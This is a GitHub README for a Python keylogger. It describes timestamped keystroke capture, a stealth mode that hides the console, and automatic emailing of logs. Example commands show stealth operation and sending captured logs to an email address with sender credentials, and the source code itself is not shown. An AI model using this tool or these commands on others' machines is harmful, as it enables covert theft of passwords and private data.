 # 🖥️ Simple Keylogger

A lightweight and feature-rich keylogger developed in Python by **Ayush Thakur (Hunter001x)**. This tool logs keystrokes, supports email notifications, log rotation, stealth mode, and customizable hotkeys.

---

## ✨ Features

1. **🖊️ Keystroke Logging**: Logs all keystrokes to a specified file.
2. **📧 Email Notifications**: Automatically sends the log file to a specified email address.
3. **🕵️ Stealth Mode**: Hides the console window for discreet operation (Windows only).
4. **🎛️ Customizable Hotkey**: Allows users to define a hotkey to stop the keylogger.
5. **⏰ Timestamps**: Adds timestamps to each logged keystroke.
6. **⚙️ Error Handling**: Handles errors gracefully during logging.
7. **🌐 Cross-Platform**: Works on Windows, macOS, and Linux.
8. **🔄 Log Rotation**: Automatically rotates the log file when it exceeds 1 MB.
9. **🚫 Excluded Keys**: Skips logging of specific keys like `Shift`, `Ctrl`, `Alt`, and `Cmd`.

---

## 📋 Requirements

- **Python**: Version 3.6 or higher
- **Required Libraries**:
  - `pynput`
  - `argparse`
  - `smtplib`

Install dependencies using:
```bash
pip install pynput
```

---

## 🚀 Usage

### 🏁 Running the Keylogger

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/aayushthakur001/Simple-Keylogger.git
   cd Simple-Keylogger
   ```

2. **Run the Script**:
   ```bash
   python keylogger.py
   ```

   ## Banner
The tool displays the following banner upon execution:
 _  __          _                                      
| |/ /___ _   _| | ___  ___ ___  _ __   ___ _ __  _   _ 
| ' // _ \ | | | |/ _ \/ __/ _ \| '_ \ / _ \ '_ \| | | |
| . \  __/ |_| | |  __/ (_| (_) | | | |  __/ | | | |_| |
|_|\_\___|\__,_|_|\___|\___\___/|_| |_|\___|_| |_|\__,_|
=================================================================
    Simple Keylogger – Developed by: Ayush Thakur (Hunter001x)
            GitHub: https://github.com/aayushthakur001
=================================================================

3. **Customize Behavior**: Use the available arguments to modify the keylogger's functionality.

---

### ⚙️ Command-Line Arguments

| Argument             | Description                                                                                  | Default Value       |
|-----------------------|----------------------------------------------------------------------------------------------|---------------------|
| `--output`           | Output file to save keystrokes.                                                              | `key_log.txt`       |
| `--email`            | Recipient email to send logs.                                                                | None                |
| `--sender_email`     | Sender email for sending logs.                                                               | None                |
| `--sender_password`  | Sender email password.                                                                       | None                |
| `--hotkey`           | Hotkey to stop the keylogger.                                                                | `<esc>`             |
| `--stealth`          | Run in stealth mode (no console output).                                                     | Disabled            |

---

### 🛠️ Example Commands

1. **Basic Usage**:
   ```bash
   python keylogger.py
   ```

2. **Send Logs via Email**:
   ```bash
   python keylogger.py --email recipient@example.com --sender_email sender@example.com --sender_password yourpassword
   ```

3. **Run in Stealth Mode**:
   ```bash
   python keylogger.py --stealth
   ```

4. **Custom Hotkey**:
   ```bash
   python keylogger.py --hotkey "<ctrl>+<alt>+s"
   ```

---

### 🛑 Stopping the Keylogger

Press the defined hotkey (default: `<esc>`) to stop the keylogger. Upon stopping, the log file will be sent via email (if configured).

---

## 🛡️ How It Works

1. **Keystroke Logging**: Captures keystrokes using the `pynput` library and writes them to a log file.
2. **Email Notifications**: Sends the log file to the recipient email using the `smtplib` library.
3. **Stealth Mode**: Hides the console window on Windows using the `ctypes` library.
4. **Log Rotation**: Renames the log file with a timestamp when it exceeds 1 MB.
5. **Custom Hotkey**: Uses `keyboard.GlobalHotKeys` to listen for a user-defined hotkey to stop the keylogger.

---

## 🔒 Security and Privacy

This tool is intended for **educational purposes only**. Use it responsibly and ensure you have proper authorization before deploying it on any system.

---

## ⚠️ Disclaimer

The author is **not responsible** for any misuse of this tool. Use it at your own risk.

---

## 🤝 Contributing

Contributions are welcome! Feel free to fork the repository and submit a pull request.

---

## 📜 License

This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.

---

## 👨‍💻 Author

Developed by **Ayush Thakur (Hunter001x)**  
GitHub: [https://github.com/aayushthakur001](https://github.com/aayushthakur001)

---
